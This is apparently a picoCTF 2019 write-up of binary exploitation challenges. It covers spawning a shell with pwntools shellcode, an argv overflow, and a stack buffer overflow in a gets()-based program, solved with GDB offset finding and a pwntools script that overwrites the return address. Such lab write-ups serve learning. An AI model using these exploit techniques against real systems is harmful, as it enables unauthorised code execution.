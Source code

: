 ## handy shellcode

We're given the source code:

![image1](/images/picoctf2019-handyshellcode/picoctf2019-handyshellcode1.png)

We have to send shellcode and the program will execute it, I made a python script that generates shellcode with the function `asm(shellcraft.linux.sh())`

![image2](/images/picoctf2019-handyshellcode/picoctf2019-handyshellcode3.png)

And execute it:

![image3](/images/picoctf2019-handyshellcode/picoctf2019-handyshellcode2.png)

<br/>

## practice run 1

You can make and ssh and cd to the directory and run it from there or just script it.

<br/>

```python
from pwn import *

user = ''
password = ''
host ='2019shell1.picoctf.com'

s = ssh(user=user,password=password,host=host)

p = s.run('/problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e/run_this')

flag = p.recvline()
print(flag)
```

<br/>

## overflow 0

We're given the source code:

![image1](/images/picoctf2019-overflow0/picoctf2019-overflow01.png)

So if we overflow the argv we'll get the flag, here's the script, I only sent 200 a's

![image1](/images/picoctf2019-overflow0/picoctf2019-overflow02.png)

And execute it:

![image3](/images/picoctf2019-overflow0/picoctf2019-overflow03.png)

<br/>

## overflow 1

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

<br/>

First let's find the offset, generate a cyclic pattern

```python
$ python3
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

Now let's open the binary on GDB and set a breakpoint before the programs exits and send the pattern
```bash
$ gdb vuln
(gdb)disass main
0x0804870f <+113>:   pop    %ebp
0x08048710 <+114>:   lea    -0x4(%ecx),%esp
0x08048713 <+117>:   ret
(gdb) break *0x08048713
Breakpoint 1 at 0x8048713
(gdb) r
Starting program: /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260/vuln 
Give me a string and lets see what happens: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Woah, were jumping to 0x61616174 !

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```

And now find the offset

```python
>>> cyclic_find(0x61616174)
76
```

<br/>

Now get the address of vuln, I'll use objdump
```bash
objdump -d vuln | grep flag
```

<br/>

And now send the padding with the address of vuln

<br/>

```python
from pwn import *

user = ''
password = ''
host = '2019shell1.picoctf.com'

s = ssh(user=user,password=password,host=host)

p = s.run('cd /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 && ./vuln')

payload = b'a'*76
payload += p32(0x080485e6) #objdump -d vuln | grep flag

p.recvuntil('Give me a string and lets see what happens: ')
p.sendline(payload)
p.interactive()	
```

